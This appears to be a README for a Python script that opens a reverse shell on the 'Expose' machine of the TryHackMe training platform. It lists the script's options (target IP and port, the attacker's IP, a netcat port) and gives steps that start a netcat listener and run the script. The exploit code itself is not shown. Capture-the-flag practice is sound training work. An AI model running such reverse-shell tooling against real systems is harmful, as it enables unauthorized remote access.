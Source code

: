 # Expose-Tryhackme
Python script to get direct reverse shell of expose machine on tryhackme

-u = website's IP
-p = port on which website is running like 1337
-a = attacker's IP , Your tun0 IP
-nc = Netcat port , ex : 9001

#### Steps : 
1. run : rlwrap nc -nlvp {port
2. python3 shell.py -u {value} -p {value} -a {value} -nc {value}
Enjoy you shell

#### THANKYOU!
